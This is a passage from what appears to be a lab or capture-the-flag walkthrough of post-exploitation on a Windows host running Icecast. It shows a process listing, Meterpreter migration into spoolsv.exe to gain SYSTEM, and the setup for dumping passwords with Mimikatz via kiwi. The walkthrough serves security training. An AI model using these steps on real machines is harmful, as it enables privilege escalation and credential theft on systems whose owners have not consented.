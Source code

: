     2068  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
    2232  1328  Icecast2.exe          x86   1        Dark-PC\Dark                  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
    2352  604   conhost.exe           x64   1        Dark-PC\Dark                  C:\Windows\System32\conhost.exe
    2412  692   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
    2508  692   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
    2608  692   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
    2812  816   rundll32.exe          x64   1        Dark-PC\Dark                  C:\Windows\System32\rundll32.exe
    2852  2812  dinotify.exe          x64   1        Dark-PC\Dark                  C:\Windows\System32\dinotify.exe
    3176  816   slui.exe              x64   1        Dark-PC\Dark                  C:\Windows\System32\slui.exe
    3816  604   conhost.exe           x64   1        Dark-PC\Dark                  C:\Windows\System32\conhost.exe
    3932  3584  powershell.exe        x86   1        Dark-PC\Dark                  C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe
    4040  692   taskhost.exe          x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\taskhost.exe
    ```

- In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?<br>Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell. 
> spoolsv.exe

- Migrate to this process now with the command `migrate -N PROCESS_NAME`

    ```bash
    meterpreter > migrate -N spoolsv.exe
    [*] Migrating from 3932 to 1368...
    [*] Migration completed successfully.
    ```

- Let's check what user we are now with the command `getuid`. What user is listed?

    ```bash
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    ```

- Now that we've made our way to full administrator permissions we'll set our sights on looting. Mimikatz is a rather infamous password dumping tool that is incredibly useful. Load it now using the command `load kiwi` (Kiwi is the updated version of Mimikatz)
